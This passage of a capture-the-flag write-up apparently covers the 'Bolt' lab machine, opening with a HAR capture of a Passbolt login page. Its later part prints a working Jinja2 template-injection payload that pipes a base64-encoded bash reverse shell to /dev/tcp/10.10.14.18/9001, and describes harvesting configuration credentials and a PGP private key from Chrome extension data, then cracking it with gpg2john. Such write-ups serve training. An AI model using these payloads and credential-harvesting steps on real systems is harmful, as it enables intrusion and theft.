              "value": "nginx/1.18.0 (Ubuntu)"
            },
            {
              "name": "date",
              "value": "Mon, 22 Nov 2021 12:40:18 GMT"
            },
            {
              "name": "content-type",
              "value": "text/html; charset=UTF-8"
            },
            {
              "name": "expires",
              "value": "Thu, 19 Nov 1981 08:52:00 GMT"
            },
            {
              "name": "cache-control",
              "value": "no-store, no-cache, must-revalidate"
            },
            {
              "name": "pragma",
              "value": "no-cache"
            },
            {
              "name": "strict-transport-security",
              "value": "max-age=31536000; includeSubDomains"
            },
            {
              "name": "x-permitted-cross-domain-policies",
              "value": "all"
            },
            {
              "name": "referrer-policy",
              "value": "same-origin"
            },
            {
              "name": "x-frame-options",
              "value": "sameorigin"
            },
            {
              "name": "x-download-options",
              "value": "noopen"
            },
            {
              "name": "x-content-type-options",
              "value": "nosniff"
            },
            {
              "name": "x-gpgauth-version",
              "value": "1.3.0"
            },
            {
              "name": "x-gpgauth-login-url",
              "value": "/auth/login"
            },
            {
              "name": "x-gpgauth-logout-url",
              "value": "/auth/logout"
            },
            {
              "name": "x-gpgauth-verify-url",
              "value": "/auth/verify"
            },
            {
              "name": "x-gpgauth-pubkey-url",
              "value": "/auth/verify.json"
            },
            {
              "name": "access-control-expose-headers",
              "value": "X-GPGAuth-Verify-Response, X-GPGAuth-Progress, X-GPGAuth-User-Auth-Token, X-GPGAuth-Authenticated, X-GPGAuth-Refer, X-GPGAuth-Debug, X-GPGAuth-Error, X-GPGAuth-Pubkey, X-GPGAuth-Logout-Url, X-GPGAuth-Version"
            },
            {
              "name": "x-gpgauth-authenticated",
              "value": "false"
            },
            {
              "name": "x-gpgauth-progress",
              "value": "stage0"
            },
            {
              "name": "x-gpgauth-error",
              "value": "true"
            },
            {
              "name": "x-gpgauth-debug",
              "value": "There is no user associated with this key. No key id set."
            },
            {
              "name": "content-security-policy",
              "value": "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self';frame-src 'self';"
            },
            {
              "name": "content-encoding",
              "value": "gzip"
            }
          ],
          "cookies": [],
          "content": {
            "size": 2723,
            "mimeType": "text/html",
            "text": "<!doctype html>\n<html class=\"passbolt no-js version launching no-passboltplugin\" lang=\"en\">\n<head>\n    <meta charset=\"utf-8\"/>\n    <title>Passbolt | Open source password manager for teams</title>\n    <!--\n\n        ____                  __          ____\n       / __ \\____  _____ ____/ /_  ____  / / /_\n      / /_/ / __ `/ ___/ ___/ __ \\/ __ \\/ / __/\n     / ____/ /_/ (__  )__  ) /_/ / /_/ / / /_\n    /_/    \\__,_/____/____/_.___/\\____/_/\\__/\n\n    Open source password manager for teams\n    Copyright (c) Passbolt SA (https://www.passbolt.com)\n\n\n    This program is free software: you can redistribute it and/or modify\n    it under the terms of the GNU Affero General Public License as\n    published by the Free Software Foundation, either version 3 of the\n    License, or (at your option) any later version.\n\n    This program is distributed in the hope that it will be useful,\n    but WITHOUT ANY WARRANTY; without even the implied warranty of\n    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the\n    GNU Affero General Public License for more details.\n\n    You should have received a copy of the GNU Affero General Public License\n    along with this program. If not, see http://www.gnu.org/licenses/.\n\n\n    -->\n    <meta name=\"description\" content=\"Open source password manager for teams\">\n    <meta name=\"keywords\" content=\"Passbolt, password manager, online password manager, open source password manager\">\n    <meta name=\"robots\" content=\"noindex, nofollow\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <link rel=\"shortcut icon\" type=\"image/x-icon\" href=\"https://passbolt.bolt.htb/favicon.ico\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_32.png\" sizes=\"32x32\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_57.png\" sizes=\"57x57\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_76.png\" sizes=\"76x76\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_96.png\" sizes=\"96x96\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_128.png\" sizes=\"128x128\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_192.png\" sizes=\"192x192\" />\n    <link rel=\"icon\" href=\"https://passbolt.bolt.htb/favicon_228.png\" sizes=\"228x228\" />\n    <base href=\"https://passbolt.bolt.htb/\">\n    <link rel=\"stylesheet\" href=\"https://passbolt.bolt.htb/css/themes/default/api_authentication.min.css?v=3.2.1\" id=\"js_css_theme\"/></head>\n<body>\n<!-- main -->\n<div id=\"container\" class=\"page \">\n</div>\n<script src=\"https://passbolt.bolt.htb/js/app/api-vendors.js?v=3.2.1\" cache-version=\"3.2.1\"></script><script src=\"https://passbolt.bolt.htb/js/app/api-triage.js?v=3.2.1\" cache-version=\"3.2.1\"></script></body>\n</html>\n"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 1967,
          "_error": null
        },
        "serverIPAddress": "10.10.11.114",
        "startedDateTime": "2021-11-22T12:40:18.245Z",
        "time": 153.94000000378583,
        "timings": {
          "blocked": 6.742999998755753,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0.37600000000000033,
          "wait": 132.6929999952251,
          "receive": 14.128000009804964,
          "_blocked_queueing": 2.338999998755753
        }
      },
      {
        "_initiator": {
          "type": "parser",
          "url": "https://10.10.11.114/auth/login?redirect=%2F",
          "lineNumber": 45
        },
        "_priority": "VeryHigh",
        "_resourceType": "stylesheet",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/css/themes/default/api_authentication.min.css?v=3.2.1",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [
            {
              "name": "v",
              "value": "3.2.1"
            }
          ],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.449Z",
        "time": 0.03199999628122896,
        "timings": {
          "blocked": 0.03199999628122896,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "parser",
          "url": "https://10.10.11.114/auth/login?redirect=%2F",
          "lineNumber": 50
        },
        "_priority": "High",
        "_resourceType": "script",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/js/app/api-vendors.js?v=3.2.1",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [
            {
              "name": "v",
              "value": "3.2.1"
            }
          ],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.450Z",
        "time": 0.016000005416572094,
        "timings": {
          "blocked": 0.016000005416572094,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "parser",
          "url": "https://10.10.11.114/auth/login?redirect=%2F",
          "lineNumber": 50
        },
        "_priority": "High",
        "_resourceType": "script",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/js/app/api-triage.js?v=3.2.1",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [
            {
              "name": "v",
              "value": "3.2.1"
            }
          ],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.450Z",
        "time": 0.020000006770715117,
        "timings": {
          "blocked": 0.020000006770715117,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon.ico",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.471Z",
        "time": 0.04099999205209315,
        "timings": {
          "blocked": 0.04099999205209315,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_32.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.472Z",
        "time": 0.031000003218650818,
        "timings": {
          "blocked": 0.031000003218650818,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_57.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.473Z",
        "time": 0.03700000524986535,
        "timings": {
          "blocked": 0.03700000524986535,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_76.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.473Z",
        "time": 0.027999994927085936,
        "timings": {
          "blocked": 0.027999994927085936,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_96.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.473Z",
        "time": 0.027999994927085936,
        "timings": {
          "blocked": 0.027999994927085936,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_128.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.474Z",
        "time": 0.015999990864656866,
        "timings": {
          "blocked": 0.015999990864656866,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_192.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.474Z",
        "time": 0.027999994927085936,
        "timings": {
          "blocked": 0.027999994927085936,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      },
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "High",
        "_resourceType": "other",
        "cache": {},
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://passbolt.bolt.htb/favicon_228.png",
          "httpVersion": "",
          "headers": [
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "Referer",
              "value": ""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            }
          ],
          "queryString": [],
          "cookies": [],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 0,
          "statusText": "",
          "httpVersion": "",
          "headers": [],
          "cookies": [],
          "content": {
            "size": 0,
            "mimeType": "x-unknown"
          },
          "redirectURL": "",
          "headersSize": -1,
          "bodySize": -1,
          "_transferSize": 0,
          "_error": ""
        },
        "serverIPAddress": "",
        "startedDateTime": "2021-11-22T12:40:18.475Z",
        "time": 0.025000001187436283,
        "timings": {
          "blocked": 0.025000001187436283,
          "dns": -1,
          "ssl": -1,
          "connect": -1,
          "send": 0,
          "wait": 0,
          "receive": 0,
          "_blocked_queueing": -1
        }
      }
    ]
  }
}
```

</details>

<br />

### Image.tar inspection

This is a backup of docker container image and saved as tar archive file, which is downloaded from <http://bolt.htb/download> page with the link of <http://bolt.htb/uploads/image.tar>.

We extract out from tar archive, and it contain a few directories and under each directory act as a layer of docker container which is a building block of configuration at the time.


We have to inspect all the content carefully, below is the breakdown of interesting content we found.

<br />

#### a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2

Under this layer (you can extract the layer.tar for all the files used in this layer), there is a sqlite3 database dump.


We open up this sqlite3 database dump, and there is username and password !


Though this is not an actual password, if you check with hashcat mode or hashid; it will be identify as md5crypt hash.

Once get the password, we can give it a try to login to all the available web sites.

At the end, the credential we found can login to <http://bolt.htb/login>.


Tried to enumerate, however fall in dead-end here.

So we continue to inspect the image.tar

<br />

#### 41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad

This layer contains the configuration of the application - flask ! Check in `app/base` > `routes.py` and `forms.py`

And here we have the invite code !


We then go back to "demo.bolt.htb", create an account with the invite code.



Then we login using the new username and password just created.


Note: We tried to create admin account, but it show account exists and we can't seem to reset the admin password.

After enough enumeration, it seem like a dead-end here as well.

Though, we have found some interesting informations here.

There is a page <http://demo.bolt.htb/admin/examples-forgot-password.html>, to recover admin password that to POST data to <http://demo.bolt.htb/admin/recover-password.html>, but POST method is not allow.

Only allow GET, OPTIONS and HEAD to <http://demo.bolt.htb/admin/recover-password.html>

With the new user created, we can try to login to bolt.htb and mail.bolt.htb.

So far only mail.bolt.htb is accessible with the user account we created.


We have basic information on this mail server:


It seem like dead-end here as well.

<br />

### Stuck and research - SSTI (Server-side template injection)

As far as we enumerated, we have not yet found any vulnerabilities or exploit.

So, decided to re-check demo.bolt.htb.

It is using AdminLTE, python flask and jinja2 (based on the web and docker container layer information) !

Then, we Google AdminLTE (3.0) + python flask + jinja2; we found some article on SSTI (Server-side template injection). A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

However, no specific reference on AdminLTE or so.

But, we examine carefully on the source code from `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/home/routes.py`.

There is only one template we can edit:


Basically, the source code is:

- we can change the name, skill and experience from "update profile" template
- then, we will received an email regarding the changes and to confirm it with the link given in the email.
- once the changes done, we will received another email stated the changes is completed.

Since, we have login to bolt.htb and demo.bolt.htb.

But only demo.bolt.htb allow us to update profile, hence the source code we found is demo.bolt.htb

We can try update our profile with SSTI payload.

For start, we use a simple SSTI payload to test out if the "update profile" template is vulnerable with SSTI.

The payload we used her:

```
{{8*8}}
```

So we input to the field we have on the "update profile".


Once we submit, we go to mail.bolt.htb; and we received an email regarding the changes.


We then click the link given to confirm the changes, and it redirect us to demo.bolt.htb but it seem like nothing change?!


Since, we will received a second email inform us that the changes is completed.

We check our mailbox, and we notice there is something strange; the SSTI work, it executed and reflected on the email !

With the name display as "64" from our SSTI payload `{{8*8}}` !


### SSTI (Server-side template injection) Exploit

With the confirmation of "update profile" template in demo.bolt.htb is vulnerable to SSTI and the exploit work.

We can search for SSTI reverse shell payload, [here is what we found useful](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Based on the article, we can use the payload below to get reverse shell and notice there is base64 encode for the reverse shell code.

```bash
{ % with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() % } a { % endwith % }
```

If you decode the base64, you will get:

```bash
bash -i >& /dev/tcp/10.10.14.18/9001 0>&1
```

So, let's make our reverse shell with base64 encoded.

```bash
echo -n "bash -i >& /dev/tcp/10.10.14.18/9001 0>&1" | base64
```

Then, we include the reverse shell payload into the SSTI payload as below:

```python
{ % with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAxIDA+JjE= | base64 -d | bash")["read"]() % } a { % endwith % }
```

We also setup netcat listener to catch the reverse shell callback.

Once we submit the SSTI payload, and we click the link to confirm the change.

We get our reverse shell callback and of course we stabilize our shell !


### Enumerate system with low-level access

We know that there are 2 users exist in the system (though you can check that from the image.tar as well)


Then we upload `linpeas` and run it for better enumeration, in the meantime we continue to enumerate manually.

Checking `/var/www/roundcude` directory, there are few directories worth to explore, we spin up python3 web server from demo.bolt.htb and download all to local attacker machine for future inspection.

Especially it contain `config` and `SQL` directories.

Checking the ` /var/www/roundcude/config `, which is our mail server configuration.


We found `config.inc.php` that contain sql database information.


We search binary for suid, nothing much to be found, only `/opt/google/chrome/chrome-sandbox` particular with suid bit; however didn't explore much as not sure if the chrome-sandbox binary will be exploitable for now.


While `linpeas` completed, we inspect the `linpeas` output.

From the `linpeas` output, information shown as below:

- cron job running
    - `/opt/google/chrome/cron/google-chrome`
    - `passbolt-ce-server`
- in `/etc` directory, there is `passbolt` directory
    - it contains the configuration for passbolt application, hence we use python3 web server and download the directory for futher inspection. 
- in `/var/lib/passbolt/`, it contain `passbolt` gpg key, we use python3 web server and download everythig as well.

Now, we inspect all the files in `/etc/passbolt` that we have downloaded.

Immediately, we look at the `passbolt.php` configruation and it contain database login.


Now we can login to MySQL DB and enumerate database.


From the basic database enumeration, we know that, there is `passboltdb` database (which you can find from the `passbolt.php` configuration as well).

Inside this database, there is `users` and `secrets` tables that worth to check in.


The `users` tables does not contain useful information, however `secrets` tables show some interesting information including a GPG message.


While without the private key, we can only donwload the GPG message for later decryption.

Additional finding:

- in `/etc/passbolt`
    - there is server gpg key pair found
- in `/var/lib/passbolt`, there is gpg key found

### Enumerate user and lateral move

Since we have a password and we know there are 2 users in the system, so we can try to login to ssh as well using all the available password so far we have been gathered.

By using one of the user - `eddie` with the combination of the password found, we managed to ssh into the system.

<br />

#### user.txt

And we get our user.txt


<br />

#### Enumerate user home directory

There are a lot of files and directories in `eddie` home directory.

We decided to download all of it for easier inspection.

First, we know that; there are

- `.pki` directory containing some keyring files
- `.ssh` directory which is blank, we can add in our ssh key for persistent access if you wanted
- `.config` directory containing all the user data, take note on `google-chrome` directory; if you research enough, you will know that usually there are certain information can be extract from firefox or chrome data directory

[For more information about User Data Directory of Google Chrome in Linux - you can check here](https://chromium.googlesource.com/chromium/src/+/HEAD/docs/user_data_dir.md#Linux)

Next, we also check in `/var/spool/mail` just in case there are email for our user - `eddie` (especially there is a mail server up and running).

Though, most of the information can be obtain by `linpeas` as well.

There is an email for our user `eddie`.


Here is the content of the email:


It's from `clark`, that telling `eddie` to backup his private key for the encryption.

Now, we start looking for `eddie` private key.

We are using lazy and easy method - `GREP`

Since, we know we need `eddie` private key and it starting with "BEGIN PGP PRIVATE"

We can use command below to find while files contain `eddie` private key.

```bash
grep -rinH "BEGIN PGP PRIVATE" 2>/dev/null
```


Now from the result, it's seem like the private key can be found at `google-chrome` user data directory which is located in `.config` of `eddie` home directory.

If you done your research correctly, you will know that Google Chrome store all the extension configuration or data in "Default/Extensions" or "Default/Local Extenstions Settings"

For example, we look at `~/.config/google-chrome/Default/Local Extensions Settings/didegimhafipceonhjepacocaffmoppf/000003.log`.

We found `eddie` private key here, we extract out the key and try to decrypt the GPG message.


But it require passphrase !


So, let's try using JohnTheRipper - ` gpg2john `


Now we have the passphrase, let's decrypt the GPG message.


There it is, we have another password here.

<br />

### Lateral move from `eddie` user

We try login to user `clark` however unsuccessful.

Then we try to login as root, and baammm !!

We get the root here !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

